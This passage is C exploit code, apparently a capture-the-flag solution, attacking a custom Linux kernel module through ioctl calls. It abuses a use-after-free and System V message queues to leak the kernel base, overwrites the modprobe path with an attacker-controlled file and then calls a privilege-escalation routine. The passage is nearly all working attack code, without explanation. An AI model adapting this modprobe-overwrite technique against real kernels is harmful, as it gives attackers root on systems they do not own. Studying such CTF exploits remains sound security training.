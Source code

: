 ```c=
    // allocate an engine, but fail on name copy
    // this puts a real log pointer where the UAF engine is
    opts.name = (void *)0x4141414141414141;
    printf("add engine: %d\n", ioctl(fd, ADD_ENGINE, &opts));

    int mqueue = msgget(IPC_PRIVATE, IPC_CREAT | 0777);
    printf("msg queue: %d\n", mqueue);

    struct msgbuf *msgptr = malloc(sizeof(*msgptr) + 0x100);
    msgptr->mtype = 0x1337;
    strcpy(msgptr->mtext, "\xf0");
    printf("msgsnd: %d\n", msgsnd(mqueue, msgptr, 1, 0));

    printf("result2: %08lx\n", result2);
    unsigned long payload[LOG_SZ/sizeof(unsigned long)];
    opts.id = result2;
    opts.logs = (char *) payload;
    if (ioctl(fd, SHOW_ENGINE_LOG, &opts) == -1) {
        goto cleanup;
    }
    for (int i = 0; i < ARRAY_SIZE(payload); i++) {
        printf("%016lx\n", payload[i]);
    }

    unsigned long leak = payload[5] - LEAK_OFFSET;
    if ((leak & 0xffff) != 0)
        goto cleanup;
    unsigned long modprobe = leak + MODPROBE_OFFSET;
    printf("kernel base: %p\n", (void *) leak);
    printf("modprobe: %p\n", (void *) modprobe);
    msgrcv(mqueue, msgptr, 1, 0, 0);

    msgptr->mtype = 0x1337;
    *((unsigned long *) msgptr->mtext) = modprobe;
    printf("msgsnd: %d\n", msgsnd(mqueue, msgptr, 8, 0));

    strcpy((char *) payload, "/home/ctf/pogchamp");
    ioctl(fd, UPDATE_ENGINE_LOG, &opts);

    do_privesc();

    ret = 0;

cleanup:
    for (int i = inuse-1; i >= 0; i--) {
        opts.id = compartments[i];
        //printf("%08x\n", compartments[i]);
        //printf("deleting: %d\n", ioctl(fd, DELETE_COMPARTMENT, &opts));
        ioctl(fd, DELETE_COMPARTMENT, &opts);
    }
    
    return ret;
}
```
